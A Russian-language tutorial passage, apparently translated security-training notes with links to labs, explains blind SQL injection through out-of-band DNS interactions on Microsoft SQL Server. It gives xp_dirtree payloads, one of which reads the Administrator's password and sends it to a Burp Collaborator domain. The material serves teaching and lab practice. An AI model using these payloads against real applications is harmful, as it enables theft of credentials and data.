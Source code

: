 Приложение может выполнить тот же SQL-запрос, что и в предыдущем примере, но делать это асинхронно. Приложение продолжает обработку запроса пользователя в исходном потоке и использует другой поток для выполнения запроса SQL с использованием файла cookie отслеживания. Запрос по-прежнему уязвим для SQL-инъекций, но ни один из описанных выше методов не работает. Ответ приложения не зависит от запроса, возвращающего какие-либо данные, возникновения ошибки базы данных или от времени, затраченного на выполнение запроса.

В этой ситуации часто можно воспользоваться уязвимостью слепого внедрения SQL-кода, инициировав внешнее сетевое взаимодействие с системой, которой вы управляете. Их можно активировать на основе введенного условия для вывода информации по частям. Еще более полезно то, что данные могут быть удалены непосредственно в рамках сетевого взаимодействия.

Для этой цели можно использовать различные сетевые протоколы, но, как правило, наиболее эффективным является DNS. Многие производственные сети допускают бесплатное выход запросов DNS, потому что они необходимы для нормальной работы производственных систем.

Самый простой и надежный инструмент для использования внеполосных методов — Burp Collaborator. Это сервер, который предоставляет индивидуальные реализации различных сетевых служб, включая DNS.

Методы запуска DNS-запроса зависят от типа используемой базы данных. Например, следующий ввод в Microsoft SQL Server можно использовать для запуска поиска DNS в указанном домене:

```
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```

Это заставляет базу данных выполнить поиск следующего домена:

`0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net`

#### Лаба
[[Лаборатория слепая инъекция SQL с внеполосной взаимодействием]]

Подтвердив способ запуска внеполосных взаимодействий, можно использовать канал вне полосы для эксфильтрата данных из уязвимого приложения. Например:
```
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```

Этот ввод считывает пароль для `Administrator` Пользователь добавляет уникальный поддомен сотрудников и запускает поиск DNS. Этот поиск позволяет просмотреть захваченный пароль:
`S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net`

Методы внеполосной (OAST) являются мощным способом обнаружения и эксплуатации слепых инъекций SQL из-за высокой вероятности успеха и способности непосредственно эксфильтратировать данные в пределах канала. По этой причине методы OAST часто предпочтительны даже в ситуациях, когда работают другие методы слепой эксплуатации.

#### Лаба
[[Лаборатория слепая инъекция SQL с внеполосной эксфильтрацией]]
